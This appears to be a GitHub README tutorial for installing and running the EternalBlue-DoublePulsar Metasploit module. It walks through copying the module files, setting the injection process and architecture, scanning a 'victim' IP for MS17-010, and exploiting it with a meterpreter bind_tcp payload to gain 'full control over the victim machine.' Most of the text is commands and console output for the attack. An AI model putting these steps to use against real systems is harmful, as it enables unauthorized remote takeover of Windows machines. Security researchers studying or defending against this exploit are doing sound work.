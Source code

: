# Eternalblue-Doublepulsar-Metasploit

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps /usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the [Eternal Blue-Doublepulsar.rb](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit) with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
register_options([
	OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
	OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
	OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into [Microsoft Windows 10](https://answers.microsoft.com/en-us/windows/forum/all/how-to-open-port-in-windows-10-firewall/f38f67c8-23e8-459d-9552-c1b94cca579a)

Then we should specify the name of the process to be injected, we have specified here as *explorer.exe*

Then you should launch msfconsole and use the auxiliary scan module [smb_ms17_010.rb](https://github.com/rapid7/metasploit-framework/modules/auxiliary/scanner/smb).
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services
msf6 > 
~~~

use the auxiliary scan module smb_ms17_010.rb
~~~
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf6 > set RHOSTS IP
msf6 > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf6 > use exploit/windows/smb/eternalblue_doublepulsar
msf6 > set payload windows.x64/meterpreter/bind_tcp
msf6 > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf6 > setRHOST IP
msf6 > set targetarchitecture x64
msf6 > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

***source:***
[rapid7](https://github.com/rapid7/metasploit-framework/modules/auxiliary/scanner/smb)
[ElevenPaths](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
